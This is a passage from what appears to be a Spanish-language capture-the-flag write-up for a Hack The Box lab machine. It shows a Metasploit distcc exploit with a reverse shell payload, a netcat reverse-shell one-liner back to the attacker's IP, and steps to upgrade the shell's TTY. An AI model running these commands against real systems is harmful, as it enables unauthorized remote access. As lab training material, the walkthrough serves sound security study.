 Vamos a utilizar `metasploit` para ganar `acceso` a la máquina víctima

```
# msfconsole
msf6 >  use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > set RHOST 10.129.251.62
RHOST => 10.129.251.62
msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.16.15
LHOST => 10.10.16.15
msf6 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Command shell session 1 opened (10.10.16.15:4444 -> 10.129.251.62:44845) at 2024-07-04 21:43:59 +0200

whoami
daemon
ls
5632.jsvc_up
vgauthsvclog.txt.0
vmware-root
```

Debido a que la consola que nos proporciona metasploit no es cómoda, vamos a obtener acceso mediante `netcat`. Para ello, ejecutamos este `payload` desde `metasploit`

```
nc -c /bin/bash 10.10.16.15 443
```

Nos ponemos en `escucha` desde nuestro equipo mediante `netcat`

```
# nc -nlvp 443                                
listening on [any] 4444 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.251.62] 36954
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
daemon@lame:/tmp$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
